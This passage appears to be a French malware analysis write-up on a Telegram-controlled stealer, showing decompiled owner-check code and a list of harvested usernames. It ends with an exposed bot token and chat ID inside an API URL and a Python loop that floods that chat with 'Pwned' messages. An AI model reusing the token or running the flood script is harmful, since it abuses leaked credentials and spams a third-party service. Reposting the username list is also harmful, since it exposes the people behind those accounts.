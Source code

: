 ```C
if (text != Settings.TelegramChatID)
	{
		string text2 = jsonnode2["chat"]["username"];
		string str = jsonnode2["chat"]["first_name"];
		telegram.sendText("\ud83d\udc51 You not my owner " + str);
		telegram.sendText(string.Concat(new string[]
		{
			"\ud83d\udc51 Unknown user with id ",
			text,
			" and username @",
			text2,
			" send command to bot!"
		}));
		break;
	}
```

On peut donc en tirer une liste de 100 utilisateurs :
```
Stella940628
Laura282924
Lysandra815159
Spielberg500867
Winifred927624
Sarah973325
Julia465280
Steven756717

...

Veronica290343
Acacia506278
lover252655
moamoa553528
Laura799863
Pandora313304
```

Finalement, on peut les spam sur cette url parce que c'est fun aprés tout:

https://api.telegram.org/bot1119746739:AAGMhvpUjXI4CzIfizRC--VXilxnkJlhaf8/sendMessage?chat_id=-1001512673124&text=Pwned

```python
import requests

url = "https://api.telegram.org/bot1119746739:AAGMhvpUjXI4CzIfizRC--VXilxnkJlhaf8/sendMessage?chat_id=-1001512673124&text=Pwned"

while(True):
  try:
    if('ok":true' in requests.get(url).text):
      print('Flood')
  except:
    pass
```

![All text](./img/final.png)
![All text](./img/flood.png)


[//]: <> (Created By Vozec 25/11/2021)